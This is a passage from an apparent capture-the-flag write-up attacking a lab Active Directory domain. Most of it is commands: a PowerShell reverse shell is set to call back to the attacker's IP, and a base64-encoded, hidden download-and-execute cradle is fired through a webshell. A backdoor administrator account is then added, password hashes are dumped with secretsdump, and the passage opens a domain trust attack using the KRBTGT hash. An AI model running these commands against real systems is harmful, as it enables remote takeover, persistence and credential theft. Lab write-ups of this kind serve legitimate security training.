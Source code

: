 Add the reverse shell to the last line. 
`echo "Invoke-PowerShellTcp -Reverse -IPAddress 10.8.2.110 -Port 4444" >> Invoke-PowerShellTCP.ps1`

Make the target to get the payload from my machine and execute it.
`echo "IEX (New-Object Net.webclient).downloadString('http://10.8.2.110/Invoke-PowerShellTCP.ps1')" | iconv -t utf-16le | base64 -w 0; echo`

`http://10.10.152.246/dev/webshell.php?cmd=powershell -ep bypass -w hidden -enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AOAAuADIALgAxADEAMAAvAEkAbgB2AG8AawBlAC0AUABvAHcAZQByAFMAaABlAGwAbABUAEMAUAAuAHAAcwAxACcAKQAKAA==`

![](https://photos.squarezero.dev/file/abir-images/Trusted/13.1.png)

![](https://photos.squarezero.dev/file/abir-images/Trusted/14.png)

Got trolled by r0BIT. I got the flag under Administrator.

![](https://photos.squarezero.dev/file/abir-images/Trusted/15.png)





### Credential Hunting

There are other users in the system and as an administrator, I tried to dump all the passwords and hashes. I tried to use Mimikatz but it didn't dump the credentials for some reason.


![](https://photos.squarezero.dev/file/abir-images/Trusted/16.png)

I created a new account with administrator privilege and used Secrectsdump to get all the hashes of the machine.

`net user dave2 password123! /add`
`net localgroup administrators dave2 /add`
`secretsdump.py dave2@lab.trusted.vl`

![](https://photos.squarezero.dev/file/abir-images/Trusted/17.png)
![](https://photos.squarezero.dev/file/abir-images/Trusted/18.png)

Now I can use the administrator hash to login to the machine later.


![](https://photos.squarezero.dev/file/abir-images/Trusted/19.png)

### Trust Attack

After Enumerating the domain I found there is BiDirectional trust between LabDC and TrustedDC. This means If I'm an administrator in Lab Domain I can execute commands on the TrustedDC Domain. To exploit this I need 3 things. 

* KRBTGT NTLM hash 
* SID of Lab.Trusted.vl
* SID of TrustedDC.Trusted.vl
